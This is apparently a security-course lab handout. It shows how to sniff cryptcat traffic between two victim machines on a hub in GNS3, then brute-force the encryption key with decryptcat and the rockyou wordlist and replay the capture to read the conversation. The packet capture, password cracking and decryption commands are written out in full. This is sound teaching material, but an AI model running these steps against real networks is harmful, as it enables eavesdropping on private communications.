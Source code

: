 ## **ES 02: Decrypting CryptoCat Traffic**  

In this lab, we will use **GNS3**, configured as follows:  

![LabDecrypt](labDecrypt.png)  

- **HUB** (**Important**: It must replace the switch that we usually connect to the router!)  
- **2 "Victim" Machines** (Ubuntu)
- **1 "Attacker" Machine** (Ubuntu)
- **Router**  
- **NAT**  

Before proceeding, ask yourself: **Why is a switch not suitable in this case?**  

### **Step 1: Setting Up the Victim Machines**  

First, install `cryptcat` on both victim machines and start a communication session:  

```shell
# Install cryptcat (all machines - victims and Darth)
$ wget http://launchpadlibrarian.net/470123778/cryptcat_20031202-4build2_amd64.deb
$ sudo dpkg -i cryptcat_20031202-4build2_amd64.deb

# Start server (one victim machine)
$ cryptcat -k <KEY> -p <PORT> -l

# Start client (other machine)
$ cryptcat <SERVER_IP> <SERVER_PORT> -k <KEY>
```  

### **Step 2: Preparing the Attacker Machine**  

Now, let's install the necessary tools on the **attacker machine**.  
From this point on, all actions must be performed on **Darth**.  
First, install the required tools:  

```shell
# Install cryptcat (all machines - victims and Darth)
$ wget http://launchpadlibrarian.net/470123778/cryptcat_20031202-4build2_amd64.deb
$ sudo dpkg -i cryptcat_20031202-4build2_amd64.deb

# Install tshark
$ sudo apt update && sudo apt install tshark

# Install decryptcat and get wordlist
$ git clone https://github.com/deurstijl/decryptcat
$ cd decryptcat
$ make install
$ wget https://gitlab.com/kalilinux/packages/wordlists/-/raw/kali/master/rockyou.txt.gz
$ gzip -d rockyou.txt.gz
```  

### **Step 3: Performing the Attack**  

Now that we have everything set up, we can execute the attack.  

```shell
# Start sniffing network traffic
$ sudo tshark -Y 'tcp.flags.push == 1 && data && !tcp.analysis.flags' -T fields -e data > raw-out.txt

# Extract data from sniffed traffic
$ cat raw-out.txt | xxd -r -p > crypted_data.txt

# Extract the encryption key from captured data
$ ./decryptcat crypted_data.txt rockyou.txt
DISCOVERED_PASSWORD

# Decrypt the file and read the conversation
$ cryptcat -k <DISCOVERED_PASSWORD> -l -p <PORT> 

# Netcat sends the encrypted data to cryptcat, which then displays the decrypted message.
# This triggers a response from the client.
$ netcat -w 1 127.0.0.1 <PORT> < crypted_data.txt
```  


